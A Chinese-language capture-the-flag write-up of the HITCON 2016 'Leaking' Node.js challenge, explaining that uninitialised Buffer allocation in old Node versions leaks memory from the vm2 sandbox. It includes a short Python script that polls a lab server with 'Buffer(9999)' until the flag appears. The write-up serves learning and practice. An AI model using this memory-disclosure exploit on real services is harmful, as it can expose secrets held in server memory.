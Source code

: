 ```yaml
---
title: '[HITCON 2016]Leaking'
date: 2024-10-20 15:35:53
tags:
      - nodejs
      - 沙箱逃逸
categories: 刷题笔记
---
```


## [HITCON 2016]Leaking

![image-20241020162243992](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410201622073.png)

这是一道nodejs的题，我们翻看一下[nodejs相关安全问题](https://www.cnblogs.com/20175211lyz/p/12659738.html)，我们发现这里使用了vm沙箱，那最有可能考的是vm沙箱逃逸

<!--more-->



![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/8e3d6018d90eefa6f76e9eba07b4bc59.png)

我们找到关键的代码，这里生成了flag

```
eval("var flag_" + randomstring.generate(64) + " = \"hitcon{" + flag + "}\";")
eval就是把里面的当作javascript语句来运行
var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
然后要Get传递一个data参数，将它放在vm2创建的沙盒中运行，并且对传入的参数长度进行了限制，不超过12，这里可以用数组绕过

```

这里就得说说这道题的考点了，这里涉及到的是nodejs的远古内存分配问题，nodejs在远古版本（Node.js v5.4.1/v4.2.4）中的Buffer分配是就着以前用过的内存分配的，并且分配完了还不会初始化一下，也就意味着之前加载进内存然后被回收掉的内存位置可能被再次分配出来，并且还不会被初始化，原始数据还保留在那。这位外国老哥在[这里](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)分析了原理
![image-20241020162857708](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410201628753.png)

所以如果使用new Buffer(size)或其别名Buffer(size)）创建,则对象不会填充零,而只要是调用过的变量，一定会存在内存中，所以需要使用Buffer()来读取内存，使用data=Buffer(9999)分配一个9999的单位为8位字节的buffer，因此很容易得到姿势
exp

```
import requests

session = requests.Session()
session.trust_env = False
while True:
    response = session.get('http://179cca2f-d3e8-431c-95bd-191625b63e16.node5.buuoj.cn:81/?data=Buffer(9999)')
    if "flag" in response.text:
        print(response.text)
        break

```

![image-20241020162935072](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410201629108.png)

最后再提一下这题的考点

在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。

